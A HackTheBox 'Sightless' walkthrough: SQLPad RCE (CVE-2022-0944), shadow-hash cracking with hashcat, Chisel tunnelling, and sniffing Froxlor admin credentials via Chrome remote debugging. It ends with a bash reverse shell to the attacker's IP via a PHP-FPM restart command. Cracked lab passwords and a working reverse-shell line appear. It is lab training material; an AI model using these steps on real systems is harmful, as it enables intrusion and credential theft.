


## Reconnaissance

### nmap 


### WebSite 


> Enumerate this site.
> Find the following different subdomain --> sqlpad


> But I have to add it to /etc/hosts first
> Then it will show the following page 


> Search exploit for sqlpad
> Find the following useful github
> It's a vulnerability with CVE number - CVE-2022-0944

- [(GITHUB)SQLPad RCE Exploit](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)


> Here are a reference which explain this CVE more detail

- [(huntr)Template injection in connection test endpoint leads to RCE in sqlpad/sqlpad](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)


## Exploit 

> Then I first tried to execute the poc payload from github

```
python exploit.py http://sqlpad.sightless.htb 10.10.14.72 443
```


> Listener 
> I just got a root user !!! ??? 
> But the hostname .... it's not the common one


> Check the root directory 
> Ok... I may land in docker ... 


> Just for a record ... getting fully interactive shell 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-z (back to host)
stty raw -echo; fg 

### Then back to shell, insert the following command 
export TERM=xterm (or)
export SHELL=bash
```

- [A Step-by-Step Guide to turning a basic reverse shell into a fully interactive terminal using Python](https://medium.com/@dineshkumaar478/a-step-by-step-guide-to-turning-a-basic-reverse-shell-into-a-fully-interactive-terminal-using-41c512e5e0cc)


> So I start to enumerate 
> With linpeas first 


> I just expected that I have to escape from docker 
> but ...  the linpeas result provide some credential in /etc/passwd


> I tried to crack it, and it got the following credential 

```
hashcat -m 1800 michael.hash  /usr/share/wordlists/rockyou.txt
```

```
michael / 123456
```


> I tried to login with this password, but it failed. 


> Then I find another password hash point to same user in /etc/shadow 


> I crack it again.

```
hashcat michael2.hash -m 1800 /usr/share/wordlists/rockyou.txt
```


> Got another credential 

```
michael / insaneclownposse
```


> Login to target server (not docker ) with michael


> user flag 


## Privilege Escalation 

> After a bunch of enumeration (include linpeas)
> I find there are some internal service running


> I tried to port forwarding the port 8080 to external first 
> Tool:  Chisel 

- Server side 

```
./chisel_arm64 server -p 1080 --reverse
```


- Client side 

```
./chisel client 10.10.14.72:1080 R:8080:127.0.0.1:8080 &
```


> Then I can check this internal web site from external 
> It's a  froxlor website (login page)


> I also tried some credential but all failed
> And I can't find any useful exploit code


> Then, back to the victim server with michael.
> I also notice this one in linpeas result - john using chrome to do some remote debuggin
> Keyword: **remote-debugging-port**

```
opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.4V6555 data:
```


#### chrome - remote debug



> Some of article explain

- [Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/)

```
The **Chrome DevTools Protocol** allows for tools to instrument, inspect, debug and profile Chromium, Chrome and other Blink-based browsers.
Instrumentation is divided into a number of domains (DOM, Debugger, Network etc.). Each domain defines a number of commands it supports and events it generates. Both commands and events are serialized JSON objects of a fixed structure.

This is especially handy to understand how the DevTools frontend makes use of the protocol. You can view all requests/responses and methods as they happen.
```


- [Key Component - Chrome DevTools](https://www.headspin.io/blog/ultimate-guide-chrome-remote-debugging)
```
The cornerstone of Chrome remote debugging is the Chrome Developer Tools (DevTools), an integrated web development and debugging tool suite. DevTools includes features like the Elements panel for inspecting HTML and CSS, the Console for running JavaScript, the Network panel for analyzing network activity, and the Sources panel for setting breakpoints and debugging JavaScript code.
```


> The most direct explain this port which related to security is this one 

- [Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)


> So far, I know some user used chrome remote debug port to inspect some service (maybe the internal website) in the victim 
> Then, I may use this protocol to monitor some sensitive file, too.
> But there are a lot of internal ports open 
> Hence I just forward all of them to external as follow

- Client side 

```
./chisel_linux64 client 10.10.14.104:1080 R:3000:127.0.0.1:3000 R:8000:127.0.0.1:8080 R:33060:127.0.0.1:33060 R:45735:127.0.0.1:45735 R:127.0.0.1:44089 R:3306:127.0.0.1:3306 R:38871:127.0.0.1:38871 &
```


> Then start the chrome debug

1. Start the chrome
2. Access this URL 
```
chrome://inspect/#devices
```


> Set up those ports by clicking "Configure.." and insert those port as following image


> After setting up, it will show the following target


> Then clicking the "inspect", it will start to show the froxlor page and debug it
> The following screen will display


> Observing for a while, I can find that someone login to froxlor success


> I can record the session, but it will expire very fast


> Then I also find it will disclose the plaintext credential in "Network" pane


```
admin / FroxlorfroxAdmin
```


> Using it to login


> Enumerate this service 
> I can find the vulnerability in PHP-FPM
> It can set the restart command 
> Hence I just key the following payload which will success 

```
bash /tmp/revhahaha.sh
```


> Before I use it, I upload the exploit shell file to target, the contents as follow 

```
#!/bin/bash
#
#
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.104/1337 0>&1'
```


> Wait for a while, I can find that my listener get shell 


 > Get root flag
 

## Reference 

### Writeup

- [Sightless — HTB Walkthrough](https://medium.com/@jfjbn4/sightless-htb-walkthrough-e4d78d374eb0
- [Sightless | Hackthebox](https://medium.com/@vikram1337/sightless-hackthebox-9599be0ee25b)

### Discussion 

- [Official Sightless Discussion](https://forum.hackthebox.com/t/official-sightless-discussion/323940/190
### CVE-2022-0944

- [(GITHUB)SQLPad RCE Exploit](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)
- [(GITHUB)CVE-2022-0944](https://github.com/FlojBoj/CVE-2022-0944)
- [(GITHUB)CVE-2022-0944-2](https://github.com/shhrew/CVE-2022-0944)
- [(huntr)Template injection in connection test endpoint leads to RCE in sqlpad/sqlpad](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

### Crack password hash (shadow file)

- [Hashcat破解/etc/shadow](https://blog.csdn.net/m0_43406494/article/details/116736263)
- [Hashcat hash type](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Chisel 

- [Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#client)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
- [(GITHUB)chisel](https://github.com/jpillora/chisel)
### Chrome - Remote Debug

- [Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/)
- [Key Component - Chrome DevTools](https://www.headspin.io/blog/ultimate-guide-chrome-remote-debugging)
- [Chrome Remote Debugger Pentesting](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)
### Other 

#### Interactive Shell 

- [A Step-by-Step Guide to turning a basic reverse shell into a fully interactive terminal using Python](https://medium.com/@dineshkumaar478/a-step-by-step-guide-to-turning-a-basic-reverse-shell-into-a-fully-interactive-terminal-using-41c512e5e0cc)

###### tag: `HackTheBox`